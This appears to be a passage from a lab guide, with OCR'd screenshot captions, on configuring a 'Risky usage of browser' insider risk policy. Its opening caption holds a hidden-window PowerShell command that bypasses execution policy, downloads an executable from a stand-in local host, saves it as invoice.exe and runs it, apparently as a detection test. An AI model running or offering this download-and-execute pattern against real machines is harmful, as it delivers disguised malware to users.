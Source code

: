 ```powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-ObjectSystem.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe','C:\test-WDATP-test\invoice.exe');Start-Process 'C:\test-WDATP-test\invoice.exe'```
generated](./media/image104.png)

6.  On the **Name and description** page, complete the following fields:

    - Name (required): ```Risky usage of browser```

    - Description (optional): ```This is a test policy for the risky browser usage.```

7.  Select **Next** to continue.

![Graphical user interface, text, application Description automatically
generated](./media/image105.png)

8.  On the **Choose users, groups, & adaptive scopes** page, select **All users, groups, & adaptive scopes**. Select **Next** to continue.

9.   On the **Exclude users and groups** page, select **Next**.

10.  On the **Decide whether to prioritize** page, select **I don't want to
    specify priority content right now** (you'll be able to do this after
    the policy is created). Select **Next** to continue.

![Graphical user interface, text, application Description automatically
generated](./media/image107.png)

11. On the **Triggers for this policy** page, select **Turn on indicators**.

![A screenshot of a computer Description automatically
generated](./media/image108.png)

12. On **Choose indicators to turn on**, select **Select all under Risky
    browsing indicators (preview)**, and uncheck rest of the boxes.

![A screenshot of a computer Description automatically
generated](./media/image109.png)

13. Scroll down and select **Save**.

14. On **Triggers for this policy**, under **Select which activities will
    trigger this policy**. Select all the options and click on **Next**.

![Graphical user interface, text, application Description automatically
generated](./media/image110.png)

15. On **Triggering thresholds for this policy** page, select **Use custom
    thresholds (Recommended)**, change all the thresholds to **1** per day and
    then select **Next**.

![Graphical user interface, application Description automatically
generated](./media/image111.png)

![A screenshot of a computer Description automatically
generated](./media/image112.png)

16. On **indicators** page, select **Next**.

![A screenshot of a computer Description automatically
generated](./media/image113.png)

17. On **Decide whether to use default or custom indicator thresholds**,
    select **Use default thresholds for all indicators**, then select **Next**.

![Graphical user interface, text, application Description automatically
```